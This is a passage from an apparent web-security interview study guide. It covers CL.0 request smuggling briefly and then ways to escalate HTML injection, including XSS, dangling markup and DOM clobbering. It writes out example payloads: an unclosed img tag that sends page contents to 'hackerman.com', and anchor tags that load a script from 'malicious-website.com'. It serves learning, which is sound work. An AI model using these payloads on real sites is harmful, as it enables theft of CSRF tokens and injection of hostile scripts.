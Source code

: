 ```HTTP
HTTP/1.1 405 Method Not Allowed

"What is xGET?????"
```


CL.0 differs from traditional HRS, because instead of abusing the logic behind how both CL and TE headers are treated (CL.TE & TE.CL), it just exploits CL header which only the front-end uses.

## Question 58: Name some potential ways to exploit HTML Injection.

### HTMLi -> XSS
One of the most common way to escalate HTML injection is XSS. Instead of just getting, for example, hyperlink injection, we can actually execute javascript! Yeah well I don't really know what to write here, so let's move onto some advanced techniques.


##### 1) Dangling markup
When XSS is impossible but we still get HTML injection and can use special chars like `">`, we can try a technique called "Dangling markup". The idea is that we make a html tag pointing to our domain and left unclosed, like : `"><img src='hackerman.com?`. Since the attribute continues, it will try to find the closing `'`. Until then, the whole response after the tag can be seen for us. The impact can be nothing, or CSRF token steal - it depends on what is stored in the source code.

Learn here : https://portswigger.net/web-security/cross-site-scripting/dangling-markup

**Note** : Dangling markup no longer works on Chrome, since it now blocks newlines, angle brackets and other raw characters in URLs definitons (like in `<img src="here">`)

##### 2) DOM clobbering (I copied this from websec questions, sorry)
Dom clobbering is technique that is used, when there's no possible JS injection, but there's still HTML injection.

It can be used, when we have a control over something that has `id` or `name` attribute, consider this example : 

```html
<script> window.onload = function(){ 
	let someObject = window.someObject || {}; 
	let script = document.createElement('script'); 
	script.src = someObject.url; 
	document.body.appendChild(script); }; 
</script>
```

We can exploit this by making two anchor tags with the same id :
`<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>`
The DOM will now add them to DOM collection, where the `name` attribute is used on the LAST anchor tag, leading it to the external script.
<sub>source: https://portswigger.net/web-security/dom-based/dom-clobbering</sub>

I need to admit that I lack knowledge in this advanced stuff, but I can definitely recommend this wiki : https://domclob.xyz/domc_wiki/index, which only focuses on DOM clobbering.

Also https://tib3rius.com/dom/ of course :P

